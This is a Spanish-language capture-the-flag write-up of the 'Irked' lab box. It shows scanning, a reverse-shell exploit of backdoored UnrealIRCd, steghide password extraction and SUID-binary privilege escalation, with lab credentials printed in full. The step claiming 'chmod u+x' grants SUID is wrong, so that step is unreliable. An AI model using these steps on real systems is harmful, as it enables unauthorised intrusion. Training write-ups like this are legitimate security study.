# Irked

-
```bash
sudo nmap -p- --open -sCV --min-rate=5000 -n 10.129.33.97 -oN nmapResult.txt
```



Se usa un servicio antiguo llamado rpcbind -> Remote Procedure Call
- Permite que un programa ejecute funciones en otra máquina como si fueran locales.
- Actúa como una especie de guía telefónica” para servicios RPC.
- Un cliente pregunta a rpcbind ¿en qué puerto está corriendo el servicio X? y rpcbind responde:  está escuchando en el puerto Y.

- Se ve también **UnrealIRCd** ->
- Esto es MUY conocido porque en 2010 distribuyeron una versión troyanizada, el propio instalador oficial venía con un backdoor
- Es un protocolo clásico de chat en tiempo real. Se usa un servidor  como UnrealIRCd o InspIRCd y un cliente como WeeChat por ej.
Durante años fue el sistema de chat usado por hackers, comunidad, admins de linux etc

- Si entramos a la web



Descargamos la imagen porque huele raro
No encontramos nada a priori, tendríamos que buscar un salvoconducto para más info

- Buscamos un exploit para UnrealRCD -> https://github.com/kevinpdicks/UnrealIRCD-3.2.8.1-RCE/blob/main/exploit.py



Nos ponemos en escucha con
```bash
nc -nlvp 443
```

y probaremos el rport con las ips expuestas con nmap y vemos que funciona para el puerto *8067*
```bash
python3 exploit.py 10.129.33.97 8067 10.10.15.36 443
```





- Tratamos la tty
ircd

## Escalada

- En /doc/unreal32docs.tr.html ->
LpT4xqPI5
moocowsrulemyworld

- En .backup /home/djmardov/Documents/.backup vemos una pista a algo de steganografía



UPupDOWNdownLRlrBAbaSSss

- Probamos a usarlo como salvoconducto
```bash
steghide --extract -sf irked.jpg
```

Nos descarga un archivo *pass.txt*



Kab6h+m+bbp2J:HG

- Probamos la psw para el usuario djmardov
```bash
su djmardov
```

-> Kab6h+m+bbp2J:HG
djmardov

## Escalada

-
```bash
find / -perm -4000 2>/dev/null
```

Vemos un binario raro que es /usr/bin/viewuser
Haciendo
```bash
strings /usr/bin/viewuser
```

vemos info del binario



- Analizamos el binario con Ghidra
La función main meustra



Ejecuta el binario /tmp/listusers con permisos de root (0)

- Crearemos un archivo listusers dentro de /tmp donde ejecutemos comandos para ver si realmente al ejecutar el */usr/bin/viewuser* se ejecuta el script





Probamos a ejecutar un hola por pantalla





Bastará con hacer un
```bash
chmod u+x /bin/bash
```

dentro del script para obtener SUID en la bash



```bash
bash -p
```

root
